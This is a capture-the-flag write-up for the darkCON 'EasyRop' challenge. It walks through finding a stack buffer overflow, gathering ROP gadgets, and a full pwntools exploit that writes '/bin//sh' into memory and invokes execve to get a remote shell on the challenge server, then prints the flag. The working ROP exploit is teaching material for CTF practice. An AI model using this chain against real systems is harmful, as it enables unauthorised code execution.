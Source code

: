 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

## Preparation
Now I thought about my objective: Getting a shell<br>
What we have to do:<br>
1.Write "/bin/sh" somewhere in memory<br>
2.make a syscall or call system with the first parameter being the location of the string, and the two next parameters being just anything <br>
<br>
The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:
<br>
\[+] Gadget found: 0x4012d3 syscall 				; making the syscall<br>
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory <br>
\[+] Gadget found: 0x40f4be pop rsi ; ret 			; controlling the rsi register<br>
\[+] Gadget found: 0x4175eb pop rax ; ret 			; controlling rax<br>
\[+] Gadget found: 0x40191a pop rdi ; ret 			; ...<br>
\[+] Gadget found: 0x40f4be pop rsi ; ret <br>
\[+] Gadget found: 0x40181f pop rdx ; ret<br>
<br>

## The Plan

pop writable location into rsi >> <br>
pop "/bin/sh" into rax >> <br>
call write gadget >> <br>
pop writable +8 into rsi >> <br>
pop (anything) into rax >> <br>
call writegadget >> <br>
pop /bin/sh location into rdi (the first syscall parameter) >> <br>
pop the junk data location into rsi and rdx (2. and 3. argument) >><br>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> <br>
make syscall >> <br>
Enjoy our flag!<br>

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:<br>
![terminal output](./terminal_exploit_execution.png)<br>
<br>
Well done! <br>
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
